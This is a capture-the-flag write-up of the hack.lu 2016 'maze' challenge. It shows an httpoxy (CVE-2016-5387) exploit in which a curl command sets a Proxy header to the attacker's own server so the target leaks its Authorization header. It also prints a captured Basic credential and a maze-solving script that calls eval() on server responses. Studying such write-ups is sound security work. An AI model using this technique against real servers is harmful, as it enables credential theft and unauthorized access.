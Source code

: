  ---
layout: post
title: hack.lu CTF 2016 - maze 
post_author: pagabuc
excerpt_separator: <!--more-->
---

This challenge is divided in two steps: bypass the authentication and
solving the maze.  The first one tooks us several hours and was at the
end solved by @invano.

The source code (https://cthulhu.fluxfingers.net:1507/code.php)
tell us the server is an `Apache/2.4.7-ubuntu4` which is vulnerable to
CVE-2016-5387, better known as `httpoxy`. With this vuln Apache
overwrites the environment variable HTTP_PROXY with the content of
the field 'Proxy' found in the headers. And here's the problem: the
function `queryURL` - which knows the credentials - honors HTTP_PROXY,
thus redirecting each request to the location specified in HTTP_PROXY.

So we executed:
```bash
curl -v -H "Proxy: IP.OF.MY.SERVER:PORT" https://cthulhu.fluxfingers.net:1507/    
````
    
And on the server we received the request with the Authorization header set!
![Raw Image 1]( {{ site.baseurl }}/files/hacklu2016/maze/auth.png)
    
To get the flag now it's just a matter of solving the maze.

The idea is that each url represents a position in the maze. To see the
reachable positions from a given one, you have to resolve a very simple
captcha.

So what I did was to recursively explore each position, but paying
attention to skip a path if it was already visited (otherwise you can
enter an infinite loop). The script below implements the idea:

```python
#!/usr/bin/env python2

import sys
import requests
import re
from BeautifulSoup import BeautifulSoup
from collections import defaultdict

maps = defaultdict(list)
allurls = []
        
def get_and_solve(url):
    print "[+] Get and solve %s" % url
    header = {'Authorization': 'Basic c3VwM3JzM2NyM3R1czNyOm4wYjBkeWM0bmd1M3NteXA0c3N3MHJk'}

    r = requests.get(url, headers=header)
    print r.text
    if "NOT THE FLAG" in r.text:
        return ["NOT THE FLAG"]

    a = re.search("([0-9]* [+-/*]) [0-9]*", r.text).group(0)
    res = eval(a)
    #print "Solve %s = %d" % (a,res)
    payload = { 'result': res}

    r = requests.post(url, headers=header, data=payload)
    print r.text

    soup = BeautifulSoup(r.text)
    urls = []
    for a in soup.findAll('a', href=True):
        print "Dumping map of %s: %s" % ( url, maps[url])
        if a['href'] not in maps[url]:
            maps[url].append(a['href'])
            urls.append('https://cthulhu.fluxfingers.net:1507/%s' % a['href'])


    return urls


def explore(p, l):
    sys.stdout.flush()
    for u in l:
        # STATS
        if u not in allurls:
            allurls.append(u)
            print "Found new state (out of %d): %s" % (len(allurls),u)

        urls = get_and_solve(u)

        if "NOT THE FLAG" in urls:
            return
        else:
            explore(u, urls)


l = ['https://cthulhu.fluxfingers.net:1507/maze/j1dgu9uxkafajnvwo10w6j5bpwr42glm/iyfu5c4wf7w6ila0pfq4dlu7lf3rn8f1.php',
 'https://cthulhu.fluxfingers.net:1507/maze/t1xdtygdurka0vwo04vxovb9h4q91tw6/2zszieqld8ghxdm43nwi7t8wh93mxau4.php',
 'https://cthulhu.fluxfingers.net:1507/maze/7v2lt3k6xsnuqywv67fxwbsdzxxzunco/j6n7ye84mmdrs5dr4wbiw6y9ttz1jpfv.php',
 'https://cthulhu.fluxfingers.net:1507/maze/o25s1yq85a30u1hqoj6mpguy12o39f4i/bnbnylcs2td9a2ni5tgvhx56mgvgfgxw.php']
explore('start',l)
```

After 15min of prayers (it was 11.30am and the CTF was ending in
30minutes) the script found the exit of the maze and rewarded us with a 200+ points flag:
`FLAG{queried_g00d_y0u_h4v3}`.